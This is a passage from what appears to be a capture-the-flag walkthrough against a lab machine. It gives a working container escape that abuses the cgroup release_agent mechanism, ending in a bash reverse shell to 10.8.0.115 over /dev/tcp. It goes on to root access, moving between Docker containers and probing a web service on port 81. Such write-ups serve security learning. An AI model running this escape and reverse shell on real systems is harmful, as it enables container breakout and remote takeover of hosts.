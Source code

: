 ```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/exploit" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /exploit
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.8.0.115/6767 0>&1'" >> /exploit
chmod a+x /exploit
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

More about this method [here](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.)

Another similar method is described [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#cap_sys_admin)

Open a netcat listener, wait for a couple of minutes and you'll get a callback 

```bash
root@ip-10-10-225-196:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

We can enumerate the containers and select the ones we haven't been in.

```bash
$ docker container ls
CONTAINER ID   IMAGE       COMMAND                  CREATED         STATUS       PORTS                                          NAMES
498d22ea6efc   c3:latest   "/usr/bin/supervisor…"   11 months ago   Up 3 hours   22/tcp, 0.0.0.0:82->80/tcp                     c3
a9ef0531077f   c4:latest   "/usr/bin/supervisor…"   11 months ago   Up 3 hours   0.0.0.0:2222->22/tcp, 0.0.0.0:8888->8080/tcp   c4
6b364d3940e6   c1:latest   "/usr/bin/supervisor…"   11 months ago   Up 3 hours   22/tcp, 0.0.0.0:80->80/tcp                     c1
c418851a6a30   c2:latest   "/startup.sh"            11 months ago   Up 3 hours   22/tcp, 0.0.0.0:81->80/tcp                     c2
```

Move around the containers.
```bash
$ docker container exec -it <container-id> /bin/bash
```

## Further Exploring Other Vulnerabilites

## HTTP on 81

The webpage contains a "An Internal Service Error Occurred, Please Try Again Later" message. We find that the User-Agent uses curl to request `/api/product/<number>`, which can also be derived from the `access_log` hidden directory.

```bash
curl http://10.10.225.196:81 -I -v
*   Trying 10.10.225.196:81...
* Connected to 10.10.225.196 (10.10.225.196) port 81 (#0)
> HEAD / HTTP/1.1
> Host: 10.10.225.196:81
> User-Agent: curl/7.81.0 <-------------------- !
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 404 Not Found
HTTP/1.1 404 Not Found
< Server: nginx/1.18.0 (Ubuntu)
Server: nginx/1.18.0 (Ubuntu)
```